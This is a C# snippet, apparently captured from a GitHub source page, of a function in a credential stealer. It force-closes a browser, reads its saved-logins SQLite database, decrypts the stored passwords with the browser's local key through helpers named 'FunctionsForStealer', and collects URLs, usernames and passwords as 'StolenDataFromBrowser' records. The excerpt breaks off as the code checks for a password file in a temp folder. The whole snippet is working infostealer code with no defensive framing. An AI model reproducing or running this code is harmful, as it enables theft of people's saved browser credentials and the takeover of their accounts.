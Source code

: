 ```csharp

            public static void DecryptBrowserPasswords(string pathToLoginData, byte[] localState, string nameTxt, string nameBrowser, out string isFoundBrowser, out int foundPasswordsThisBrowser)
            {
                foundPasswordsThisBrowser = 0;

                try
                {
                    ProcessBrowserKill(nameBrowser);
                    string content = "";
                    string connectionString = $"Data Source={pathToLoginData};Version=3;";
                    using (SQLiteConnection sqliteConnection = new SQLiteConnection(connectionString))
                    {
                        sqliteConnection.Open();
                        List<StolenDataFromBrowser> passwords = new List<StolenDataFromBrowser>();
                        using (SQLiteCommand sqliteCommand = new SQLiteCommand("select * from logins", sqliteConnection))
                        {
                            using (SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader())
                            {
                                while (sqliteDataReader.Read())
                                {
                                    byte[] encryptedPassword = (byte[])sqliteDataReader["password_value"];
                                    if (FunctionsForStealer.FunctionsForDecrypt.IsV10(encryptedPassword))
                                    {
                                        byte[] iv, salt;
                                        FunctionsForStealer.FunctionsForDecrypt.Prepare(encryptedPassword, out iv, out salt);
                                        string decryptedPassword = FunctionsForStealer.FunctionsForDecrypt.Decrypt(salt, localState, iv);

                                        if (!string.IsNullOrEmpty(decryptedPassword))
                                        {
                                            Variables.allFoundPasswords++;
                                            foundPasswordsThisBrowser++;
                                            passwords.Add(new StolenDataFromBrowser
                                            {
                                                url = sqliteDataReader["origin_url"].ToString(),
                                                username = sqliteDataReader["username_value"].ToString(),
                                                password = decryptedPassword
                                            });
                                        }
                                    }
                                    else
                                    {
                                        try
                                        {
                                            Encoding.UTF8.GetString(ProtectedData.Unprotect(encryptedPassword, null, DataProtectionScope.CurrentUser));
                                        }
                                        catch { }
                                    }
                                }
                            }
                        }

                        if (File.Exists(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt))
```